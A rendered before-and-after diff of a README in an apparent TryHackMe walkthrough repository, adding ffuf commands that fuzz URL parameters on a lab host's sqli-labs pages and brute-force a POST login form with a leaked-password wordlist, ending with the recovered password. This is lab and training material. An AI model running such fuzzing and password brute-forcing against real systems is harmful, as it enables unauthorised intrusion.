

Before and after one commit to r1skkam/TryHackMe-Walkthroughs, a Markdown page: ffuf/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/ffuf/README.md
+++ b/ffuf/README.md
@@ -87,3 +87,29 @@ ffuf -u http://10.10.195.108/FUZZ -w /usr/share/seclists/Discovery/Web-Content/r
 ```
 
 ![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a62c095d-8a59-44dd-9d8e-b7c918e4f98b)
+
+```
+ffuf -u 'http://10.10.2.199/sqli-labs/Less-1/?FUZZ=1' -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fw 39
+```
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a432e207-6089-4aeb-a667-3adc32cfc06d)
+
+```
+ffuf -u 'http://10.10.2.199/sqli-labs/Less-1/?FUZZ=1' -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -fw 39
+```
+
+```
+ruby -e '(0..255).each{|i| puts i}' | ffuf -u 'http://10.10.2.199/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
+```
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ad3f1cf2-8e3b-4f6b-ad33-e3b699af02e6)
+
+```
+ffuf -u http://10.10.2.199/sqli-labs/Less-11/ -c -w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt -X POST -d 'uname=Dummy&passwd=FUZZ&submit=Submit' -fs 1435 -H 'Content-Type: application/x-www-form-urlencoded'
+```
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/55b10a81-cd77-4864-a777-89c7d9150dca)
+
+```
+p@ssword
+```
````
